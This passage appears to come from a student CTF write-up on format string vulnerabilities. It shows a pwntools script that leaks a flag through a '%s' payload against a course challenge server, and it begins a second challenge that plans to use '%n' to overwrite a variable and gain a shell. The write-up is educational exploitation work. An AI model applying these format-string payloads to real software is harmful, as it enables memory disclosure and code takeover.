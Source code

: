 So the payload to send will be `<address>%s` . The last thing to note is that we cannot sent `\x08\x04\xc0\x60%s` because the program was compiled in little-endian, so we need to send the address in the reverse order:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

And by executing the python script, we can get the flag:

```bash
seed@4eb7a33b0273:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4004: Done
[*] Switching to interactive mode
You gave me this: `\xc0flag{5fc247063bea425edc863667ac9d09bc}

Disqualified!
[*] Got EOF while reading in interactive
```

![ctf62_stack_1.png](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7af66b41-da3c-4c7c-aa80-607d3eee439d/ctf62_stack_1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20211202%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20211202T224022Z&X-Amz-Expires=86400&X-Amz-Signature=caed9b637c09006000096f8b4e7bdf6dc0a6f979bdc9ff7536e5385615968bce&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22ctf62_stack_1.png%22&x-id=GetObject)

### Challenge 2

Again, we start by running `checksec` on the program, and we get the same results as before, so we can try another format string attack.

```python
seed@01263caa2989:~$ checksec program
[*] '/home/seed/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

After checking the source code, we have again a global variable `key`, but this time, the variable is an integer with value 0, not a string with the flag value.

On the main function, we can see that we can gain access to the bash if the value of the `key` variable is equal to `0xbeef`.

So what we need to do is, using the `printf`, somehow change the value of the key variable. Fortunately, there is a format string `%n`. From the `printf` manual page:

```json
n      The number of characters written so far is stored into the
              integer pointed to by the corresponding argument.  That
              argument shall be an int *, or variant whose size matches
              the (optionally) supplied integer length modifier.  No
              argument is converted.  (This specifier is not supported
              by the bionic C library.)  The behavior is undefined if
              the conversion specification includes any flags, a field
              width, or a precision.
```
